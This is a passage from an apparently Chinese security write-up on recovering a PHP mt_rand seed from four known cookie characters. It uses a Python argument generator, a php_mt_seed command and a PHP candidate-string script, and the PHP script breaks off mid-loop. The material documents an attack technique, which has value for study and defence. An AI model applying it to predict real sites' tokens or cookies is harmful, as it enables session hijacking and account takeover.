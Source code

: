 那么这4位cookie前缀就是我们可以得到的，那我们就可以使用字符集加上4位已知字符，爆破随机数种子。

首先我们需要先获得4位字符
![image.png-193.7kB][3]

sW7c

然后通过脚本生成用于php_mt_seed的参数
```
# coding=utf-8

w_len = 10
result = ""
str_list = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(str_list)

for i in xrange(w_len):
	result+="0 "
	result+=str(length-1)
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "

sstr = "sW7c"

for i in sstr:
	result+=str(str_list.index(i))
	result+=" "
	result+=str(str_list.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "

print result
```
得到参数,使用php_mt_seed脚本
```
./php_mt_seed 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 54 54 0 61 22 22 0 61 33 33 0 61 38 38 0 61 > result.txt
```

这里我获得了245组种子

接下来我们需要使用这245组随机数种子生成随机字符串
```
<?php


function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
	for($i = 0; $i < $length; $i++) {
		$hash .= $chars[mt_rand(0, $max)];
	}
	return $hash;
}

$fp = fopen('result.txt', 'rb');
$fp2 = fopen('result2.txt', 'wb');

while(!feof($fp)){
	$b = fgets($fp, 4096);
```

  [1]: http://static.zybuluo.com/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: http://static.zybuluo.com/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: http://static.zybuluo.com/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: http://static.zybuluo.com/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: http://static.zybuluo.com/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: http://static.zybuluo.com/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: http://static.zybuluo.com/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: http://static.zybuluo.com/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: http://static.zybuluo.com/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: http://static.zybuluo.com/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: http://static.zybuluo.com/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png